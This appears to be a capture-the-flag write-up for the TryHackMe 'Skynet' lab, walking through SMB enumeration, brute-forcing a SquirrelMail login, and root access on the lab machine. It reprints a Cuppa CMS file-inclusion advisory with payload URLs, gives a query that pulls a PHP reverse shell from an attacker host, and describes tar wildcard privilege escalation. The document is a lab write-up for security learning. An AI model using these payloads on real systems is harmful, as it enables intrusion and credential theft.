


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Intrusion
- Explotation
{:toc}

## [](#header-2)Summary:

1. Find/Enumerate Samba Shares
2. Bruteforce mail server login 
3. Find hidden web dir 
4. Use Cuppa exploit to drop remote shell for intitial access
5. Privesc using cronjob

## [](#header-2)Recon:


Intial nmap scan shows an Apache server running on port 80, email clients (pop3/imap),and some "potentially" vulnerable samaba shares.


Navigating to the apache server on port 80 we see a skynet search engine which doesn't give us much in terms of functionality.


After running smbmap on the host we can see there are 4 seperate shares.


Running gobuster reveals two interesting finds an admin direcory and a mail server called "squirrelmail".


## [](#header-2)Intrusion:


To begin the only smbshare I am able to access at this point is "anonymous" which has "READ ONLY" permissions.
```bash
smbclient //<targetip>/anonymous 
```
Once I am in the anonymous share I can see two files/folders of interest.


From here we want to retrieve these files to further analyze with the following command.

```bash
smbget -R smb://<target ip>/anonymous
```


Reading the attention txt file we find out that passwords for users accross the system have been changed, some may call this a "clue".
```bash
kali@kali:~/Desktop/tryhackme/skynet$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```


I then find that log1.txt contains what seems to be passwords that might've been apart of the recent change.

```bash
kali@kali:~/Desktop/tryhackme/skynet$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

With this list of passwords we are able to throw these in burp to perform a bruteforcing attack on their squirrel mail sever.


Noticing that one of the Length fields is different then the others is indicative of that input being the right combination of username/password.

Once we're into Miles's email we find three emails containing some odd/useful content within the emails.


There are two emails with AI lingo in them one being binary and the other ASCII but they both have the same infoormation.
It's pretty much useless information but you can find more out about it here:
https://www.dailydot.com/debug/facebook-ai-invent-language/





There we go!


Since the password is for his Samba share we then proceed to use it to login to his share(milesdyson).

After logging into his account we find a bunch of notes on algorithms/AI/mathematics and a note titled "important.txt"

Using the following commands I am able to retrieve the txt file onto my own system

```bash
smb: \> cd notes
smb: \notes\> get important.txt
```

We then see that the there is a directory that wasn't picked up in our initial gobuster scan.


Navigating to the site we can see a "cuppa" login portal.


## [](#header-2)Exploitation:

Launching a searchsploit query on this random web application gives us the following result.

```bash
kali@kali:~/Desktop/tryhackme/skynet$ searchsploit cuppa
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path                           
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                          | php/webapps/25971.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results    
```
```bash

kali@kali:~/Desktop/tryhackme/skynet$ cat /usr/share/exploitdb/exploits/php/webapps/25971.txt                                                                                                                                                                                        
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O .. CWH Underground Hacking Team ..
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /          
  / XXXXXX /
 (________(            
  `------'

####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22: 
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
    

#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------

Base64 Encode Output:
-----------------------------------------------------------------------------
PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gIkRiQGRtaW4iOwoJCXB1YmxpYyAkdGFibGVfcHJlZml4ID0gImN1XyI7CgkJcHVibGljICRhZG1pbmlzdHJhdG9yX3RlbXBsYXRlID0gImRlZmF1bHQiOwoJCXB1YmxpYyAkbGlzdF9saW1pdCA9IDI1OwoJCXB1YmxpYyAkdG9rZW4gPSAiT0JxSVBxbEZXZjNYIjsKCQlwdWJsaWMgJGFsbG93ZWRfZXh0ZW5zaW9ucyA9ICIqLmJtcDsgKi5jc3Y7ICouZG9jOyAqLmdpZjsgKi5pY287ICouanBnOyAqLmpwZWc7ICoub2RnOyAqLm9kcDsgKi5vZHM7ICoub2R0OyAqLnBkZjsgKi5wbmc7ICoucHB0OyAqLnN3ZjsgKi50eHQ7ICoueGNmOyAqLnhsczsgKi5kb2N4OyAqLnhsc3giOwoJCXB1YmxpYyAkdXBsb2FkX2RlZmF1bHRfcGF0aCA9ICJtZWRpYS91cGxvYWRzRmlsZXMiOwoJCXB1YmxpYyAkbWF4aW11bV9maWxlX3NpemUgPSAiNTI0Mjg4MCI7CgkJcHVibGljICRzZWN1cmVfbG9naW4gPSAwOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3ZhbHVlID0gIiI7CgkJcHVibGljICRzZWN1cmVfbG9naW5fcmVkaXJlY3QgPSAiIjsKCX0gCj8+
-----------------------------------------------------------------------------

Base64 Decode Output:
-----------------------------------------------------------------------------
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "Db@dmin";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?>
-----------------------------------------------------------------------------

Able to read sensitive information via File Inclusion (PHP Stream)

################################################################################################################
 Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2 
```

The vulnerability allows us to drop a reverse php shell on the victim machine after creating a customized query.

The php rverse shell I used can be found here "/usr/share/webshells/php/php-reverse-shell.php" in kali as well as on pentest monkey's website.

Once we have reverse shell ready to go we set up our netcat listener to recieve the incoming connection.

Then we throw our query in the browser
http://<victim ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<attcker ip>:8000/php-reverse-shell.php

and we get a shell!


From here we can find the user.txt flag in miles directory.

## [](#header-2)Privilege Escalation:

Cronjobs are one of the main things I check during a CTF and once I checked /etc/crontab I saw that there was a cronjob going off every minute which is definetly interesting.


After further inspection of the cronjob 

```bash
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
I found that it backs up the /var/www/html directory with the tar command which is a command that can be abused according to https://gtfobins.github.io/#+sudo.

An article that also really helped me understand what was going on during this technique:
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

The basics of it are that three seperate folders are made within the /var/www/html folder
- --checkpoint=1 
- --checkpoint-action=exec=sh shell.sh
- shell.sh

In combination these folders allow arbitrary code exectution(our shell file) whenever the file is zipped with tar during the cronjob



I only got the root flag out of this device but this exploit would basically allow for any code to be executed on the target device as root.
